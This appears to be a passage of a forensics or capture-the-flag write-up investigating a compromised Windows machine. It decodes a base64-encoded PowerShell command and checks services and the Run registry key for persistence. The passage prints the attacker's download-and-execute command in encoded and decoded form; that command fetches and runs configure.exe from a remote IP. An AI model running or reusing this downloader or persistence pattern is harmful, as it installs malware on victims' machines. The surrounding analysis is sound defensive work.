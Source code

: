 Output - Evidence:

```powershell
powershell.exe -enc aQB3AHIAIAAtAHUAcwBlAGIAIABoAHQAdABwADoALwAvADEAMgA4AC4AMQA5ADkALgAyADQANwAuADEANwAzAC8AYwBvAG4AZgBpAGcAdQByAGUALgBlAHgAZQAgAC0AbwB1AHQAZgBpAGwAZQAgACQAZQBuAHYAOgBhAHAAcABkAGEAdABhAFwAYwBvAG4AZgBpAGcAdQByAGUALgBlAHgAZQA7ACAAUwB0AGEAcgB0AC0AUAByAG8AYwBlAHMAcwAgACQAZQBuAHYAOgBhAHAAcABkAGEAdABhAFwAYwBvAG4AZgBpAGcAdQByAGUALgBlAHgAZQA7ACAAcgBtACAAJABlAG4AdgA6AGEAcABwAGQAYQB0AGEAXABjAG8AbgBmAGkAZwB1AHIAZQAuAGUAeABlAA==
```

Command:

```powershell
$base64String = "aQB3AHIAIAAtAHUAcwBlAGIAIABoAHQAdABwADoALwAvADEAMgA4AC4AMQA5ADkALgAyADQANwAuADEANwAzAC8AYwBvAG4AZgBpAGcAdQByAGUALgBlAHgAZQAgAC0AbwB1AHQAZgBpAGwAZQAgACQAZQBuAHYAOgBhAHAAcABkAGEAdABhAFwAYwBvAG4AZgBpAGcAdQByAGUALgBlAHgAZQA7ACAAUwB0AGEAcgB0AC0AUAByAG8AYwBlAHMAcwAgACQAZQBuAHYAOgBhAHAAcABkAGEAdABhAFwAYwBvAG4AZgBpAGcAdQByAGUALgBlAHgAZQA7ACAAcgBtACAAJABlAG4AdgA6AGEAcABwAGQAYQB0AGEAXABjAG8AbgBmAGkAZwB1AHIAZQAuAGUAeABlAA=="
$decodedBytes = [System.Convert]::FromBase64String($base64String)
$decodedString = [System.Text.Encoding]::Unicode.GetString($decodedBytes)
$decodedString
```

Output - Evidence:

```powershell
iwr -useb http://128.199.247.173/configure.exe -outfile $env:appdata\configure.exe; Start-Process $env:appdata\configure.exe; rm $env:appdata\configure.exe
```

Note:

- The registry key HKLM:\Software\Microsoft\Windows\CurrentVersion\Run is a commonly used Windows Registry location for managing programs that automatically run when the system starts. This key resides under the HKEY_LOCAL_MACHINE (HKLM) hive, which applies globally to all users on the machine.

> **Aside from the registry implant, another persistent implant is stored within the machine. When did the attacker implant the alternative backdoor?**
> 

Command:

```powershell
Get-Service | Where-Object {$_.StartType -eq "Automatic"}
```

Output - Evidence:

```powershell
Stopped  CDPUserSvc_9286x   CDPUserSvc_9286x
```

Command:

```powershell
Get-Service | Where-Object {$_.StartType -eq "Automatic"} | ForEach-Object { $serviceName = $_.Name; $servicePath = (Get-WmiObject Win32_Service | Where-Object { $_.Name -eq $serviceName }).PathName; Write-Output "Service Name: $serviceName`nExecutable Path: $servicePath`n--------------------" }
```
